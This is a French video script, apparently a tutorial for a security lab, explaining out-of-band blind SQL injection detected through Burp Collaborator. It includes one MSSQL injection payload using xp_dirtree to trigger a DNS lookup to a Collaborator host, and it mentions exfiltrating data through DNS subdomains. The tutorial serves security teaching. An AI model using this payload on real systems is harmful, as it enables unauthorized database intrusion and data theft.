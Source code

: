 

**[Introduction]**

*Plan de la scène : Prise de vue du présentateur, avec la capture d'écran d'une application vulnérable sur l'ordinateur ou le laboratoire en fond.*

**Voix off :**  
Salut à tous et bienvenue dans cette nouvelle vidéo ! Aujourd'hui, on va explorer une technique d'exploitation assez subtile : l'injection SQL aveugle avec interactions hors bande, aussi connue sous le nom de "Out of Band SQL Injection" ou OAST. C’est une méthode qu'on peut utiliser lorsque l'application ne nous renvoie pas de réponses directes à nos attaques SQL classiques, mais où on peut encore obtenir des informations de manière détournée.

On va voir comment cette vulnérabilité peut être exploitée à l'aide de Burp Suite et son outil *Burp Collaborator*, et comment on peut exfiltrer des données via des requêtes DNS.

**[Présentation du contexte]**

*Plan de la scène : Affichage de l'interface de l'application cible vulnérable.*

**Voix off :**  
Prenons un exemple simple. Imaginons qu'on ait une application vulnérable à l'injection SQL aveugle, mais qu’elle utilise des requêtes asynchrones pour exécuter la requête SQL en arrière-plan. Cela signifie que la réponse à la requête SQL ne sera pas visible directement dans l'application. Elle continue de traiter l'utilisateur normalement, tandis que la requête SQL se fait dans un thread séparé, souvent pour analyser les cookies ou autres paramètres.

Du coup, avec ce type de fonctionnement, les méthodes classiques d'injection SQL comme les erreurs de base de données ou les délais d'exécution (temps-based blind SQL injection) ne sont plus efficaces. La réponse HTTP de l'application ne sera pas influencée par la requête SQL exécutée.

**[Pourquoi les techniques hors bande ?]**

*Plan de la scène : Transition vers une animation qui explique les techniques hors bande et DNS.*

**Voix off :**  
C’est là qu’interviennent les techniques hors bande. Ici, on va essayer de déclencher des interactions réseau, comme une requête DNS, qui nous indiqueront si notre injection a fonctionné. 

L'idée, c’est d'utiliser une interaction réseau que l'application fera en arrière-plan, souvent via DNS, pour nous signaler un résultat. Ces requêtes sont particulièrement efficaces, car elles peuvent être envoyées en dehors du flux habituel de l'application, et de nombreux serveurs autorisent ces connexions pour des raisons de fonctionnement normal. 

C'est là que *Burp Collaborator* devient un super outil, car il nous permet de détecter ces interactions réseau, en particulier les requêtes DNS, et de les analyser.

**[Présentation de Burp Collaborator]**

*Plan de la scène : Présentation de l'interface Burp Suite et de Burp Collaborator.*

**Voix off :**  
*Burp Collaborator* est un serveur fourni avec Burp Suite Professional qui nous aide à détecter et à exploiter ces interactions réseau. Quand l’application vulnérable envoie une requête DNS vers un domaine que nous contrôlons, Burp Collaborator peut capturer cette requête et nous le notifier en temps réel.

Avec cet outil, il est possible d'injecter des charges utiles dans l'application pour forcer celle-ci à effectuer des requêtes DNS vers un sous-domaine spécifique de notre serveur Collaborator. Une fois cette interaction capturée, on sait que notre injection a fonctionné.

**[Exploitation de l'injection SQL aveugle avec Burp Collaborator]**

*Plan de la scène : Affichage de l'exemple d'injection SQL dans Burp Suite.*

**Voix off :**  
Prenons maintenant un exemple concret. Disons que l'application est vulnérable à une injection SQL aveugle, et que l'on veut provoquer une requête DNS via l'injection. Sur un serveur Microsoft SQL, par exemple, on pourrait injecter une commande comme celle-ci :

```sql
'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--
```

Cette commande va forcer la base de données à exécuter une recherche DNS pour le domaine suivant :

`0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net`

Lorsque cette recherche DNS est envoyée, Burp Collaborator reçoit la requête et peut la capturer pour vous.

**[Réponse de Burp Collaborator]**

*Plan de la scène : Affichage de l'interface Burp Collaborator avec la notification de la requête DNS capturée.*

**Voix off :**  
Dans Burp Collaborator, vous pouvez configurer un domaine spécial, comme celui que je viens de mentionner, et vérifier si le serveur envoie bien une requête DNS vers ce domaine. Si la requête DNS apparaît, cela signifie que notre injection SQL a bien fonctionné et que l'application a interagi avec notre serveur.

**[Laboratoire et résolution du défi]**

*Plan de la scène : Passage au laboratoire avec l'application vulnérable, et démonstration de la solution.*

**Voix off :**  
Passons maintenant au laboratoire. Ce laboratoire contient une application vulnérable à l'injection SQL aveugle. L'application utilise un cookie de suivi, et chaque requête SQL est exécutée de manière asynchrone.

Le but ici est d’exploiter cette vulnérabilité pour déclencher une recherche DNS vers Burp Collaborator. Dès que vous avez reçu la notification sur votre serveur Collaborator, vous aurez résolu le défi.

**[Conseils pratiques]**

*Plan de la scène : Résumé à l'écran avec des conseils clés.*

**Voix off :**  
Quelques points importants à retenir pour exploiter l'injection SQL aveugle hors bande :
- Utilisez Burp Collaborator pour recevoir les requêtes réseau générées par l’application.
- Si l'application envoie des requêtes DNS, vous pourrez récupérer des informations sans que l'application ne vous donne directement de réponse visible.
- Les injections DNS peuvent être utilisées pour exfiltrer des données en envoyant des informations dans des sous-domaines spécifiques.

**[Conclusion]**

*Plan de la scène : Retour au présentateur pour la conclusion.*

**Voix off :**  
Et voilà ! C'est ainsi qu'on peut exploiter une vulnérabilité d'injection SQL aveugle en utilisant des interactions hors bande via Burp Collaborator. C’est une technique très puissante pour interagir avec des applications vulnérables qui ne nous offrent pas de retour visible lors des injections SQL classiques. 

Si vous avez aimé cette vidéo et trouvé ces informations utiles, n'oubliez pas de laisser un like, de vous abonner et de partager avec vos amis qui sont intéressés par la sécurité informatique. 



